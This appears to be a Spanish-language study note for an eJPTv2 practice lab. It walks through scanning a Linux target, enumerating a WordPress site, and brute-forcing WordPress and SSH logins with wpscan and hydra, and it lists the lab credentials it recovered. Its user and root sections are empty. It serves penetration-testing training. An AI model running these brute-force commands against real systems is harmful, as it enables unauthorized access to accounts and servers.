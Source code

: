 # Simulación de examen eJPTv2

Tags: #Nmap #Apache #WordPress #Linux #Dirbuster #Hydra #SearchSploit #SSH 

## Maquina 1 

- IP ->  VMware
- Ports -> TCP (22, 80, 3306), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 7.9p1 Debian 10+deb10u2
    - 80 -> Apache httpd 2.4.38
    - 3306 -> MySQL 5.5.5-10.3.38-MariaDB-0+deb10u1

## Recon

Con estos dos comandos podemos escanear la red en donde nos encontremos. 
```bash
❯ arp-scan -I ens33 --localnet --ignoredups       # Para hacer un escaneo de la red local, no puedes encontrar mas usuarios despues del router que no pertenecen a tu red
```

```bash 
❯ nmap -sn ❮Target_IP/24❯                         # Usara ARP para escanear la red
``` 

Para ver los puertos y servicios.
```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI
```

```bash
❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

### Enumeración del Puerto 80
```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

Abrimos la pagina web en el navegador, encontramos un Apache como pagina por el puerto 80.

Ahora vamos a enumerar la web, para encontrar mas directorios.
```python
❯ dirb http://<IP>/             # Para encontrar rutas en la pagina web  

# Encontramos varias rutas como 
	# /admin, /Downloads, /wordpress, /server-status, /admin/doc
```

Como encontramos un WordPress, enumeraremos los usuarios con su herramienta. 
```bash
❯ wpscan --url http://URL/wordpress/ -e u                                             # Enumeracion WordPress

	# u = Enumerar usuarios

# Encontramos algunos usuarios como 
	# admin, hugo, philip
```

```bash
❯ wpscan --url http://URL/wordpress/ --passwords /usr/share/wordlists/rockyou.txt      # BruteForce

	# passwords = Enumerar passwords

# Encontramos algunas passwds  
	# admin:password, hugo:9876543210, philip:password

# Tambien nos muestra que el WordPress tiene una version 4.8.22, buscando la version actual que es  
```

* También podríamos enumerar los plugin. 

En dado caso de que no tengamos esas herramientas, podemos usar Hydra.
Esto se usa en el panel del admin de WP.
```python
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt http://IP http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302' 
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt http://IP http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid user'
# Haremos un ataque de fuerza bruta a WordPress

	# l (ele) = Usuario que en este caso es  'omar'
	# P = Ruta del diccionario
	# log y pwd = Lo podemos encontrar en el apartado de la pagina web 'Ctrl + u' 
	# S = Redireccionamiento con el codigo 302
	# F = Error que nos muestre el panel de autenticacion, por si no sirve con el 'S'
```

Y así logramos entrar al login de la web. 


### Enumeración del Puerto 22

```bash
❯ searchsploit openssh 7.9p1                 # Para buscar un exploit con esa version de OpenSSH
```

```python
❯ hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://❮IP❯ 
# Haremos un ataque de fuerza bruta al puerto SSH

	# ssh = Puerto al que vamos a atacar 22
	# IP = Direccion de la maquina victima
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# L = Ruta del diccionario o 'archivo que contiene users'

# Encontramos dos usuarios y dos passwd
	# vagrant:vagrant, debian:debian
```

```bash
❯  ssh ❮User❯@❮IP❯                                  # Para conectarnos por ssh en el puerto default 22 con los usuarios obtenidos 
```


## User


## Root
